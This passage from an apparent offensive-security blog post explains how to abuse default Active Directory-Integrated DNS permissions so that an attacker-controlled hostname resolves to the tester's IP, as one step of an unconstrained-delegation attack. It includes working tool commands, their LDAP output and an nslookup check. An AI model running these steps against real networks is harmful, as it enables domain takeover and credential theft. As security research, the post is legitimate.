

Permissions to add/modify DNS records
After adding a new SPN that points to a hostname not in use on the network, we of course need to make sure the hostname we added resolves to our own IP. If the network you are in uses Active Directory-Integrated DNS, this should be straighforward. As Kevin Robertson described in his blog about ADIDNS, by default any authenticated user can create new DNS records, as long as there is no record yet for the hostname. So after we add the SPN for attacker.corp.com to our unconstrained delegation account, we can add a record for this hostname that points to our IP using for example PowerMad (different hostname used as example):


I also added a tool to the krbrelayx repo that can perform DNS modifications (dnstool.py) in AD over LDAP:
user@localhost:~/adtools$ python dnsparse.py -u icorp\\testuser icorp-dc.internal.corp -r attacker -a add -d 10.1.1.2 Password:
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
Afterwards we can see the record exists in DNS:
user@localhost:~/adtools$ python dnsparse.py -u icorp\\testuser icorp-dc.internal.corp -r attacker -a query
Password: [-]
Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found record attacker
DC=attacker,DC=internal.corp,CN=MicrosoftDNS,DC=DomainDnsZones,DC=internal,DC=corp
[+] Record entry:
- Type: 1 (A) (Serial: 36)
- Address: 10.1.1.2
And the record resolves after the DNS server refreshes the records from LDAP (which by default takes place every 180 seconds):
user@localhost:~/adtools$ nslookup attacker.internal.corp 192.168.111.2
Server: 192.168.111.2
Address: 192.168.111.2#53
Name: attacker.internal.corp
Address: 10.1.1.2
The dnstool.py utility has several other options, including one to remove records again after exploitation, which I won’t go into in this post, but you can get the tool on GitHub. If modifying DNS does not work or the network you are in does not use AD for DNS, it is always possible to perform network attacks to take over the DNS server, though this often requires you to be in the same VLAN as the system. A way which should always work is modifying the compromised computers own DNS record, but this is almost a guarantee to break stuff and might take a while to propagate because of DNS caching.